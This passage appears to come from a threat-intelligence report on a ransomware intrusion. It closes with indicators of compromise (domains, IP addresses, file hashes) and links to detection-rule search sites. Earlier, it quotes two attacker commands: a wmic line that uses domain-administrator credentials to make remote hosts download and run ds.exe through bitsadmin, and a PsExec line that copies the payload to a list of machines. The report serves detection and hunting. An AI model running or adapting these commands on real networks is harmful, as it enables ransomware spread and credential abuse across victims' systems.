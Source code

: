 ```
wmic /node:ipv4address,REDACTED,REDACTED,REDACTED,REDACTED /user:"domain.local\Administrator" /password:"REDACTED" process call create "cmd.exe /c bitsadmin /transfer update_service \\REDACTED\share$\ds.exe %APPDATA%\ds.exe&%APPDATA%\ds.exe -pass REDACTED"
```
The source also provides the Psexec commands used for ransomware distribution:
```
PsExec.exe /accepteula @comps1.txt -u "domain.local\Administrator" -p "REDACTED" cmd /c COPY "\\REDACTED\share$\ds.exe" "%WINDIR%\temp"
```

**Further Hunting Libraries:** 
https://sigmasearchengine.com
https://detection.fyi

### IOC
**Domains**
accessservicesonline.com \
user.compdatasystems.com \
compdatasystems.com \
retailadvertisingservices.com \
qaz.im \
temp.sh \
mega.io

**IPs** \
31.172.83.162 \
159.100.14.254 \
91.142.74.28 \
195.2.70.38 \
38.180.61.247 \
185.236.232.20 \
93.115.26.127 \
46.21.250.52

**File Hashes**
*   `svchosts.exe` - `b4ad5df385ee964fe9a800f2cdaa03626c8e8811ddb171f8e821876373335e63`
*   `dfg.exe` - `b79bb3302691936df7c3315ff3ba7027f722fc43d366ba354ac9c3dac2e01d03`
*   `svc.dll` - `2389b3978887ec1094b26b35e21e9c77826d91f7fa25b2a1cb5ad836ba2d7ec4`
*   `Veeam-Get-Creds.ps1` - `18051333e658c4816ff3576a2e9d97fe2a1196ac0ea5ed9ba386c46defafdb88`
*   `svcmc.dll` - `ced4ee8a9814c243f0c157cda900def172b95bb4bc8535e480fe432ab84b9175`
*   `setup_wm.exe` - `d8b2d883d3b376833fa8e2093e82d0a118ba13b01a2054f8447f57d9fec67030`
*   `check.exe` - `3f97e112f0c5ddf0255ef461746a223208dc0846bde2a6dca9c825d9c706a4e9`
*   `svcmcc.dll` - `44cf04192384e920215f0e335561076050129ad7a43b58b1319fa1f950f6a7b6`
*   `sd.exe` - `c1173628f18f7430d792bbbefc6878bced4539c8080d518555d08683a3f1a835`
*   `SETUP.bat` - `7673a949181e33ff8ed77d992a2826c25b8da333f9e03213ae3a72bb4e9a705d`
*   `ds.exe` - `59c9d10f06f8cb2049df39fb4870a81999fd3f8a79717df9b309fadeb5f26ef9`
*   `EXE1.bat` - `ba9b879fdc304bd7f5554528fb8e858ef36ad4657fedfefb8495f43ce73fc6f1`
*   `EXE.bat` - `10ce939e4ee8b5285d84c7d694481ebbdf986904938d07f7576d733e830ed012`
*   `COPY.bat` - `3af3f2d08aa598ab4f448af1b01a5ad6c0f8e8982488ebf4e7ae7b166e027a8b`
*   `WMI.bat` - `578a2ac45e40a686a5f625bbc7873becd8eb9fe58ea07b1d318b93ee0d127d4e`
*   `RDP.bat` - `791157675ad77b0ae9feabd76f4b73754a7537b7a9a2cc74bd0924d65be680e1`
*   `WMI1.bat` - `c4863cc28e01713e6a857b940873b0e5caedfd1fcb9b2a8d07ffb4c0c48379d5`
*   `COPY1.bat` - `9bcaad9184b182965923a141f52fb75ddd1975b99ab080869896cee5879ecfad`
*  `DEF.bat` - `53828f56c6894a468a091c8858d2e29144b68d5de8ff1d69a567e97aac996026`
